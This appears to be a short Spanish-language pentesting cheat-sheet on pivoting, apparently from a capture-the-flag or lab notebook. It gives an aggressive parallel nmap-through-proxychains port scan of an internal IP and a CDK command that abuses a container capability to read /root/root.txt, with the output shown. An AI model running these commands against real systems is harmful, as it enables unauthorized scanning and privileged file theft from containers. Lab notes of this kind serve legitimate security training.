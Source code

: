 # Pivoting

## Escaneo ultragresivo con nmap
```null
seq 1 65535 | xargs -P 200 -I {} proxychains nmap -p{} -sT -Pn -v -n 10.197.243.77 -vvv 2>/dev/null | grep "tcp open"
```

## Uso de de CDK

### Exfiltración de archivos

```null
root@c150397ccd63:~# ./cdk run cap-dac-read-search /root/root.txt
Running with target: /root/root.txt, ref: /etc/hostname
33f94f70a5d8d427f1fcd10b555422e2
```